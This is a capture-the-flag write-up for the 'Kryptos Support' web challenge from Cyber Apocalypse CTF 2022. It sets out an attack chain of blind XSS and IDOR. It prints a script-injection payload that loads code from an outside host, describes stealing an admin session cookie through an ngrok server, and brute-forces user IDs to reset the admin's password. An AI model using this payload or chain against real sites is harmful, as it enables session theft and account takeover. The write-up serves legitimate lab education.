```yaml
---
layout: distill
published: true
title: Web - Kryptos Support Writeup
date: 2022-05-25 11:09:00+0700
description: Writeup for Kryptos Support Challenge. Cyber Apocalypse CTF 2022 - Intergalactic Chase
tags: ctf
# tags: distill formatting
categories: write-ups
thumbnail: assets/img/cyber-apocalypse-ctf-2022/kryptos-1.png # change this
giscus_comments: true
related_posts: true
featured: true

authors:
  - name: Dwiki Kusuma
    url: "https://twitter.com/qlkwej"
    affiliations:
      name: qlkwej
toc:
  - name: TL;DR
  - name: Challenge Description
  - name: Problem
  - name: Attack vectors
    subsections:
      - name: Checking the ticket creating process
  - name: Solution
  - name: Lesson Learned
    subsections:
      - name: Login using default password
      - name: Bypass client-side validation

---
```



{% details Disclaimer %}
I am not a CTF addict nor maniac, I do CTF for fun and learning purpose. 
So, if you are looking for a writeup that is very detailed and easy to understand, I suggest you to find another writeup. 

This writeup is just a note for myself and maybe for someone who is looking for a hint to solve the challenge.
Feedback /  comments / PRs are welcome :)
{% enddetails %}

## TL;DR
This writeup is about Kryptos Support challenge from Cyber Apocalypse CTF 2022 - Intergalactic Chase. To get the flag we need to chain a blind XSS and IDOR vulnerability.

## Challenge Description

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-1.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Upon checking the challenge description, we are given a short description about the challenge.

> The secret vault used by the longhir's planet council, Kryptos, contains some very sensitive state secret that Virgil adn Ramona are after to prove injustice performed by the commision. Ulysses performed an initial recon at their request and found a support portal for the vault.
Can you take a look if you can inflitrate this system? 

Let start the challenge by visiting the given link.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-2.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
*** 

## Problem

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-3.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
The application is a reporting website that allows user to report a problem. There is a keyword `an admin will review your ticket shortly`.
So, I assume there is a cronjob that run behind the scene to check the ticket and send the report to the admin.

***

## Attack vectors
Let's do basic recon to get more information about the application. I use gobuster<d-footnote>https://github.com/OJ/gobuster</d-footnote> for this purpuse and found several directory, such as:
```
- admin
- logout
- login
- static
- settings
- tickets
```

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-5.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

So we have two piece of puzzle as a `hints`, which was:
1. The admin will review the ticket shortly.
2. The mentioned page / directory above.

The best case scenario is the admin will review the ticket (which contaions blind XSS or CSRF vulnerability) and login to the application. So, we can login to the dashboard (maybe).
But the question is, where is the starting point?

### Checking the ticket creating process
Let's create a ticket and see what happen behind the scene. I use burp suite to intercept the request and send it to repeater. 

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-4.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The request is a POST request with a JSON body to `POST /api/tickets/add`. The body contains a `message`  of the ticket, and it returns a response which indicates the admin will review our message shortly.

Okay, this is maybe the starting point. Let's try to inject a XSS payload to the message and see what happen.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-8.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I use a vanilla javascript payload with the burpsuite collabolator URL as the endpoint. The payload is `"><script src="https://collabolator/test.js"></script>`.

I receive a DNS and HTTP request from the application server to the collabolator server. So, the application is vulnerable to blind XSS.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-7.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The next step is to steal the cookie if it's using a cookie based authentication using XMLHttpRequest <d-footnote>https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials</d-footnote>. 

I create a dummy server using ngrok <d-footnote>https://ngrok.com/</d-footnote> to host the javascript exploit and use it to receive the request from the application server.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-10.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I receive a request from the application server and it contains a cookie. So, the application is using a cookie based authentication. Because if it's using a header based authentication, the exploit won't work.

***


## Solution

Checking the session cookie format, it is a JWT token. So, we can decode the token and see what is inside the token.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-11.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Based on the `payload data` it is the `moderator` session. But why not `admin` ? Perhaps there still one missing piece, but will keep it for  observation later.

Use the session cookie from the previous step to login to the application. I use the `Cookie Editor` extension <d-footnote> https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/ </d-footnote>for firefox to change the cookie value.

I can login to the application and see the dashboard. But, there is no flag in the dashboard. So, I assume the flag is in the admin dashboard.
I check all the feature in `moderator` dashboard and found a `change password` feature which is vulnerable to IDOR.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-12.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-13.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>


When I put the new password, it will send a POST request to `POST /api/users/update` with a JSON body. The body contains a `password` and `uid` field. The IDOR vulnearbility was in `uid`. IF we can change the `uid` value to the `uid` own by the `admin` we can change the admin password. Since it's a increamental number, so we can bruteforce it from 001-999 _(the current user is moderator with `uid` 100 so admin must be between that range)_.

After several iteration, we found the admin `uid` it is `uid: 001`
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-14.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Change the admin password on the `change password` feature and login to the admin dashboard. The flag is in the admin dashboard.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-15.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>


flag: `HTB{x55_4nd_id0rs_ar3_fun!!}`


***

## Lesson Learned

I learn several things from this challenge:

### Login using default password
The easiest way to login to the application is to use the default password. I try to use `admin:admin` but it won't work. But, it's not a bad idea to try the default password first, because in realworld this scenario is still happen.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-6.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

### Bypass client-side validation

At first, I check the client-side login validation. Whether it using a weak validation and I can bypass the flow. But, turns out it's a rabbit hole.
It's only give us information if the login were successfull, it will redirected to `/tickets` page

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-9.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>